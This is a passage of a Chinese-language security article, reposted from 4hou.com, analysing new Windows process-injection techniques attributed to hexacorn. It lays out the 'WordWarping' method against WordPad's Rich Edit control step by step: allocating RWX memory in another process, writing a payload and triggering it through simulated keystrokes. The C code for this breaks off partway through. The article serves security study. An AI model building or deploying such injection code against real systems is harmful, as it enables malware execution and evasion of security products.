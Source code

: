 # 实现 Windows 进程注入的 7 种新方法

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [https://www.4hou.com/system/17735.html](https://www.4hou.com/system/17735.html)


导语：在上周，[@hexacorn ]() 提出了 7 种新型的攻击方式，以 “粉碎式攻击” 的方法来实现代码注入或重定向。在本文中，我们将具体讨论这些新型注入方法，并提供一些可用的示例。

**简介**

在这里，我们主要对 [@hexacorn ]() 上周发布的代码注入 / 进程注入相关的文章进行进一步的分析。在上周，[@hexacorn ]() 提出了 7 种新型的攻击方式，以 “粉碎式攻击” 的方法来实现代码注入或重定向。在本文中，我们将具体讨论这些新型注入方法，并提供一些可用的示例。前五种方法的示例都将使用 “Edit” 和“Rich Edit”控件，最后两个则使用 SysListView32 和 SysTreeView32。

**关于 Rich Edit 控件**

要进行新型注入方法的尝试，我们可以选择遍历所有窗口，例如 EnumWindows，从窗口句柄中检索类的名称，然后将字符串的开始部分与 “RICHEDIT” 进行比较。除了这种方法之外，我们还可以使用 FindWindow 或 FindWindowEX 手动查找这些空间。我们所使用的环境是 Windows 10 的评估版本，因此我进行测试时使用的唯一应用程序就是 Wordpad（写字板），并找到其中的富文本控件 Rich Edit Control。要完成这一过程，只需要两行代码。

1. 获取 Wordpad 的主窗口

```
wpw = FindWindow(L"WordPadClass", NULL);
```

2. 找到 Rich Edit 控件

```
rew = FindWindowEx(wpw, NULL, L"RICHEDIT50W", NULL);
```

**方法 1：WordWarping**

可以使用 EM_SETWORDBREAKPROC 消息来设置 Edit 或 Rich Edit 空间的文本包装器回调函数。通过 SendInput 或 PostMessage API 模拟键盘输入，可以触发回调函数的执行。这种注入方式在 16 年前就已经被用于在应用程序中提升特权。尽管没有针对该漏洞的 CVE 编号，但实际上，它可以被用于针对 McAfee、VirusScan、Sygate Personal Firewall Pro、WinVNC、Dameware 以及其他产品的漏洞利用。示例中的代码，就使用了 WordPad 实现注入代码，其具体步骤如下：

1. 获取 Wordpad 的主窗口；
2. 找到 Wordpad 的 Rich Edit 控件；
3. 尝试获取 Wordwrap 函数的当前地址；
4. 获取 Wordpad 的进程 ID；
5. 尝试打开该进程；
6. 为 Payload 分配 RWX 内存；
7. 将 Payload 写入内存；
8. 更新回调过程；
9. 模拟键盘输入，以触发 Payload；
10. 恢复原始 Wordwrap 功能（如果存在）；
11. 释放内存并关闭进程句柄。

```
VOID wordwarping(LPVOID payload, DWORD payloadSize) {
    HANDLE        hp;
    DWORD         id;
    HWND          wpw, rew;
    LPVOID        cs, wwf;
    SIZE_T        rd, wr;
    INPUT         ip;
   
    // 1. Get main window for wordpad.
    //    This will accept simulated keyboard input.
    wpw = FindWindow(L"WordPadClass", NULL);
   
    // 2. Find the rich edit control for wordpad.
    rew = FindWindowEx(wpw, NULL, L"RICHEDIT50W", NULL);
 
    // 3. Try get current address of Wordwrap function
    wwf = (LPVOID)SendMessage(rew, EM_GETWORDBREAKPROC, 0, 0);
 
    // 4. Obtain the process id for wordpad.
```